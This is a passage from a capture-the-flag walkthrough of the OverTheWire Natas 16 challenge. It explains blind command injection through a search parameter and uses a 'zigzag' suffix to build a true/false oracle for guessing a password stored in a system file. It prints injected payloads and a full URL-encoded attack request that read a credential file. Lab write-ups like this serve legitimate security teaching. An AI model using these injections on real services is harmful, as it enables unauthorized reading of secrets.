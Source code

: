Where x is any valid char, A-Z, a-z, and 0-9.

However, we still need a way of knowing whether that character was a match. To demonstrate, let’s pick a couple letters that we think are part of the password. Let’s try n, and insert that into our command:

``` cmd
$(grep n /etc/natas_webpass/natas17)
```

If we submit this (resulting URL is http://natas16.natas.labs.overthewire.org/?needle=%24%28grep+n+%2Fetc%2Fnatas_webpass%2Fnatas17%29&submit=Search), we get no output

From this behavior, we can assume that if our inner grep command evaluates to an empty string, we get all results back. In other words:

``` cmd
grep -i "$(grep n /etc/natas_webpass/natas17)" dictionary.txt
```

Evaluates to:

``` cmd
grep -i "" dictionary.txt
```

### Fine-tuning our grep search

While I think this approach is usable, we can go a step further and prove that this “collapsing” command behavior is happening. If our inner grep command is:

```
$(grep n /etc/natas_webpass/natas17)zigzag
```

Then in the case of no match, we should effectively be searching for zigzag by itself.
```
grep -i "$(grep ! /etc/natas_webpass/natas17)zigzag" dictionary.txt
# evaluates to
grep -i "zigzag" dictionary.txt
# which should output 5 words
```

But if we search for a value that exists, like maybe n, if we do get a match, the command will look like:

```
grep -i "$(grep n /etc/natas_webpass/natas17)zigzag" dictionary.txt
# evaluates to
grep -i "<somevaluehere>zigzag" dictionary.txt
# which should output nothing
```

This matching string <somevaluehere> with zigzag on the end should not match anything in dictionary.txt, so we should get nothing back.

### Building our script

With this strategy, we can now build out a script similar to the last level, where we use the true/false response to determine if we have a matching character or not.
